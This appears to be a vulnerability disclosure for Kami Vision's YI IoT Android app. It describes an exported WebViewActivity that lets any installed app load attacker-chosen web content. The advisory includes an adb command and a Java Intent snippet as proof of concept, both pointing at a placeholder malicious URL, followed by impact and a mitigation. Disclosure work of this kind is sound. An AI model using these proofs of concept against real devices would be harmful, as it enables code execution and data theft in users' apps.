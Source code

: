 ## Vulnerability Details

**Product:** YI IoT 'com.yunyi.smartcamera'  
**Version:** up to 4.1.9_20231127
**Vendor:** Kami Vision  
**Component Affected:** `com.ants360.yicamera.activity.WebViewActivity`  

The activity `com.ants360.yicamera.activity.WebViewActivity` is marked as exported and accepts an implicit Intent, making it accessible from any third-party application. This can be exploited to load a malicious web page in the WebView, leading to remote JavaScript code execution within the context of the application.

```markdown
### Proof of Concept 1 - ADB Invocation

```bash
adb shell am start -n com.yunyi.smartcamera/com.ants360.yicamera.activity.WebViewActivity -e path "https://www.example.com/maliciousContent"
```

### Proof of Concept 2 - Third-party Android Java Code

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.yunyi.smartcamera", "com.ants360.yicamera.activity.WebViewActivity"));
intent.putExtra("path", "https://www.example.com/maliciousContent");
startActivity(intent);
```

This Java code snippet demonstrates how a malicious application can invoke the `WebViewActivity` without any permissions, thereby leveraging the vulnerability.

### Impact

The vulnerability does not require any permissions and can be exploited by any third-party application installed on the same device. It could lead to unauthorized access, data theft, or manipulation of user information.

### Recommended Mitigations

1. Set `android:exported` to `false` for `WebViewActivity` if it is not meant to be accessed externally.


### Steps to Reproduce

1. Install the YI IoT app (version 4.1.7_20231026).
2. Execute the adb command or the Java code provided above.
```
